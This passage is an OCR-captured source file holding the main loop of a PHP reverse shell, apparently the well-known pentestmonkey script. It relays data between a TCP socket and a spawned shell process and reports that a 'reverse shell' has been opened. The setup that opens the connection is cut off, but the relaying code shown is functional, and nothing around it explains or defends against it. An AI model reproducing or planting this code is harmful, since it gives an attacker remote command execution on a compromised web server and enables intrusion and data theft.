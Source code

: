 ```
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

```